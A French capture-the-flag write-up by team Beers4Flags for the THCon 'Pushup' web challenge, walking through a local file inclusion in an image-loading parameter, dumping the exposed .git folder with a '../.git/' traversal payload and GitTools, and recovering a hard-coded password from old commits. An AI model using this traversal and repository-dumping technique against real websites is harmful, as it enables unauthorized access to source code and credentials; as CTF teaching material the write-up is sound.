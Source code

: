 **Web - Pushup - 300pts**

Enoncé :
```
You like pushups ? Because I like pushups. I found a website about pushups, let's pushup!

https://pushup.thcon.party

HINT Le développeur vient de m'appeler: il m'a dit qu'il était OK pour vous filer le code source du site, il a commit les changements mais il n'a pas push ..
```

**Résolution :**

Sur la page d'accueil le lien qui charge l'image nous semble suspect :
```
https://pushup.thcon.party/assets/png/load_image.png?_=muscle.png
```

Après plusieurs essais on remarque la présence d'une LFI.
On se sert de cette LFI pour récupérer le dossier .git présent sur le serveur avec [Gittools](https://github.com/internetwache/GitTools) :

```BASH
./gitdumper.sh "https://pushup.thcon.party/assets/png/load_image.png?_=../.git/" th_web300
```
On regarde la liste des commits :
```BASH
git log
```
On obtient un commit intérressant :

```
commit 2e3dfdcfeb22de43101397456f5d344d14f2dc5a
Author: zadig <zadig@riseup.net>
Date:   Fri Dec 15 22:02:16 2017 +0100

    Ajout de la méthode pour l'authentification

```

```BASH
git checkout 2e3dfdcfeb22de43101397456f5d344d14f2dc5a

```

On fait un git status , le fichier auth.php servant à l'authentification à été supprimé.

Pour le récupérer : 

```BASH
git checkout auth.php

```

Contenu du fichier auth.php :

```PHP
<?php

require_once 'engine/config.php';

if ($_POST['biceps'] === ___) {
  echo str_replace('_FLAG_', file_get_contents('flag.txt'), file_get_contents('templates/success.html'));
} else {
  echo file_get_contents('templates/error.html');
}
```

On récupère alors le fichier engine/config.php :

```BASH
git checkout engine/config.php

```


Dans le fichier engine/config.php on trouve le mot de passe de l'interface :
```PHP
<?php
const _ = '_ROOT_';
const __ = '_';

const ___ = 'ProtéinesDansLeMuscleExcessivement!';

const ____ = 'muscle.png';
?>

```
Une fois le mot de passe entrée on obtient le flag


![Alt](img/flag.png "Flag")



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```

